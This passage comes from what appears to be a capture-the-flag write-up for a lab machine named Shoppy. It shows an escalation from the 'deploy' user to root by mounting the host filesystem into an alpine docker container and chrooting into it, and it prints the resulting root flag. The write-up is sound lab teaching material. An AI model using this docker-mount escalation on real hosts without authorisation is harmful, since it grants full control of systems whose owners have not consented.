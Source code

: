 The deploy user surely has more permissions than `jaeger`. The deploy user can’t run sudo. Maybe docker?

```bash
deploy@shoppy:~$ docker ps -a
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```

I can access the docker server, but there aren’t any running or stopped containers. I searched the filesystem for a `Dockerfile` in hopes of finding some hints, but fell short of anything useful. There appears to be a single image pulled, `alpine`. I searched for `docker cves` on google. There are a few vulnerabilities we can explore based on our docker version:

```bash
Server: Docker Engine - Community
 Engine:
  Version:          20.10.18
  API version:      1.41 (minimum version 1.12)
  Go version:       go1.18.6
  Git commit:       e42327a
  Built:            Thu Sep  8 23:09:59 2022
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.6.8
  GitCommit:        9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6
 runc:
  Version:          1.1.4
  GitCommit:        v1.1.4-0-g5fd4c4d
 docker-init:
  Version:          0.19.0
  GitCommit:        de40ad0
```

I don’t see any exact matches for our version. GTFOBins has a couple of things we can try ([https://gtfobins.github.io/gtfobins/docker/#shell](https://gtfobins.github.io/gtfobins/docker/#shell))

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# bash
root@485b116ac101:/mnt# ls /home
deploy	jaeger
```

This effectively gives us root on the host system through the shared mount point. Pretty clever. Let’s get the flag:

```bash
$ cat /root/root.txt
254e2008ee86a5bf47f373a99d7110a9
```
